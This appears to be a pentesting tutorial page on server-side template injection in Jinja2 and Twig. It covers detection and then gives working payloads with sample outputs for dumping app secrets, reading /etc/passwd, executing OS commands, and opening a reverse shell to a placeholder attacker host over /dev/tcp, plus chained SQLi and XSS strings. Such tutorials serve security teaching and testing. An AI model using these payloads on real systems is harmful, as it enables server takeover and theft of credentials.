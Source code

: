 # 👀 SSTI

Server-Side Template Injection (SSTI) is a critical vulnerability where an attacker can inject template code into a web application’s template engine, causing it to be executed server-side. This can lead to severe security issues, including **information disclosure**, **remote code execution (RCE)**, and **local file inclusion (LFI)**.

***

### **1. Context and Overview**

#### What Is SSTI?

A **template engine** is responsible for rendering dynamic content by merging templates (pre-defined HTML) with user input or data from a database. Common examples include **Jinja2** for Python (used in Flask/Django), **Twig** for PHP, and **Velocity** for Java-based applications. These engines allow dynamic content to be generated based on user inputs or system data.

**SSTI** occurs when the application **fails to sanitize** user input properly, allowing an attacker to inject malicious template syntax. This can result in various attacks, such as reading sensitive files, executing arbitrary code, or even compromising the entire server.

***

### **2. Identifying SSTI Vulnerabilities**

Identifying SSTI vulnerabilities is similar to detecting **SQL injection** or **Cross-Site Scripting (XSS)**. The goal is to inject special characters or expressions that the template engine will try to evaluate.

#### **Common Injection Syntax for Template Engines:**

* **Jinja2 (Python)**: `{{ ... }}`
* **Twig (PHP)**: `{{ ... }}`
* **Velocity (Java)**: `${ ... }`

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption><p><a href="https://portswigger.net/web-security/server-side-template-injection"><strong>https://portswigger.net/web-security/server-side-template-injection</strong></a></p></figcaption></figure>

#### **Testing for SSTI:**

Look for places where user input is incorporated into templates. The most common input fields to test include:

* **Form Inputs** (e.g., search bars, login forms)
* **URL Parameters** (e.g., `?name={{ user_name }}`)
* **HTTP Headers** (e.g., custom headers, cookies)
* **File Uploads** (e.g., image metadata or document-based templates)

#### **Burp Suite Example:**

Let’s start with an example using **Burp Suite** to intercept and manipulate HTTP requests.

**Request:**

Imagine we’re testing a login form that takes a `username` parameter and outputs a personalized greeting:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username=vautia&password=testpassword
```

**Injection:**

Inject the following SSTI payload in the `username` parameter to test for template processing:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username={{7*7}}&password=testpassword
```

**Response:**

After sending the request, the server responds with the following:

```html
Hello 49! Welcome to the site.
```

This reveals that the application is processing the input as a template expression, indicating an **SSTI vulnerability**.

***

### **3. Exploiting SSTI: Common Scenarios**

Once SSTI is identified, attackers can leverage various techniques to exploit the vulnerability.

#### **Scenario 1: Information Disclosure**

An attacker can use SSTI to expose internal application configurations or secrets, such as database credentials, environment variables, or API keys.

**Example Payload (Jinja2):**

```plaintext
{{ config.items() }}
```

**Response:**

```plaintext
[('DEBUG', True), ('SECRET_KEY', 'randomkey1234'), ('SQLALCHEMY_DATABASE_URI', 'mysql://user:password@localhost/db')]
```

This reveals sensitive configuration data.

***

#### **Scenario 2: Local File Inclusion (LFI)**

SSTI can be leveraged to read sensitive files, such as `/etc/passwd` on Linux systems or application logs, if the template engine has access to the filesystem.

**Example Payload (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

This exposes the contents of `/etc/passwd`, potentially revealing user accounts and system information.

**Example Payload (Twig):**

```plaintext
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

***

#### **Scenario 3: Remote Code Execution (RCE)**

The most severe impact of SSTI is remote code execution. This allows attackers to run arbitrary commands on the server, potentially compromising the entire system.

**Example Payload (Jinja2):**

Executing the `id` command to get the user context:

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that the attacker can execute commands on the server.

**Example Payload (Twig):**

In **Twig**, you can use the `filter('system')` function to execute arbitrary system commands:

```plaintext
{{ ['id'] | filter('system') }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Advanced Remote Code Execution (RCE):**

Attackers can escalate RCE to more dangerous payloads, such as reverse shells or data exfiltration.

**Reverse Shell Example (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -i >& /dev/tcp/attacker_ip/4444 0>&1').read() }}
```

This command attempts to open a reverse shell back to the attacker's machine at IP `attacker_ip` on port `4444`.

***

### **4. Advanced Payloads and Complex Exploitation**

#### **Chaining SSTI with Other Vulnerabilities**

In some cases, SSTI can be chained with other vulnerabilities, like **SQL Injection (SQLi)** or **Command Injection**, to achieve greater control over the application.

**SSTI + SQL Injection (SQLi):**

Imagine an application that uses template injection to build SQL queries. If the application is also vulnerable to **SQL injection**, an attacker can combine both vulnerabilities to extract sensitive data.

```plaintext
{{ config['SECRET_KEY'] }}' OR 1=1 --
```

This could reveal the secret key while bypassing login authentication by exploiting the SQLi part.

**SSTI + XSS:**

An attacker can inject **Cross-Site Scripting (XSS)** payloads into the template, which can then be executed in other users' browsers.

```plaintext
{{ "<script>alert('XSS')</script>" }}
```

This injects malicious JavaScript into the page, which gets executed when another user visits the site.
